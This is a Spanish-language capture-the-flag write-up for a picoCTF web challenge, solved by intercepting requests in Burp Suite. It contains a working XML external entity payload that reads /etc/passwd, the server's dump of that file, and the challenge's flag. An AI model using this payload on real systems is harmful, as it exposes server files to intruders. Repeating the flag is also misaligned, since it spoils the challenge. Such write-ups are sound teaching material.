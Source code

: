 # **Descripción**

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:60058/)

Hints:

- XML external entity Injection
# **Solución**

Para la resolución de este problema se utilizó la herramienta Burp Suite para interceptar las peticiones en la página web.

Al ingresar a la página web no notamos nada raro, solo existen algunos botones que nos muestran información.

Al pulsar el primer botón de detalles, muestra lo siguiente

```
**Special Info::::** University in Kigali, Rwanda offereing MSECE, MSIT and MS EAI
```

Si interceptamos esta solicitud en el Burp Suite nos muestra:

```HTML
POST /data HTTP/1.1
Host: saturn.picoctf.net:60058
Content-Length: 61
Accept-Language: es-419,es;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:60058
Referer: http://saturn.picoctf.net:60058/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<data>
<ID>
1
</ID>
</data>
```

Para encontrar la bandera haremos caso a la pista dada, la cual nos dice que podemos hacer una inyección de Entidad Externa XML (XXE), esta inyección es una vulnerabilidad de seguridad web que permite a un atacante interferir con el procesamiento de datos XML de una aplicación. 

Nos permitirá ver archivos en el sistema de archivos del servidor de la aplicación y interactuar con cualquier sistema externo o de back-end al que la propia aplicación pueda acceder.

Dada la descripción, haremos una inyección para ingresar al archivo */etc/passwd* de la siguiente manera.

Declaramos la entidad XXE para ver este archivo. Después lo pondremos antes de los datos y la mandaremos llamar dentro de los datos, así como se muestra a continuación


```HTML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
<ID>
&xxe;1
</ID>
</data>
```

Una vez modificado esto en la solicitud interceptada por el Burpsuite, la mandaremos y lo mostrado será lo siguiente.

```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf} 1
```

Que es el archivo que buscábamos, incluyendo al final de este la bandera.


# **Notas adicionales**


# **Referencias**

- https://portswigger.net/web-security/xxe 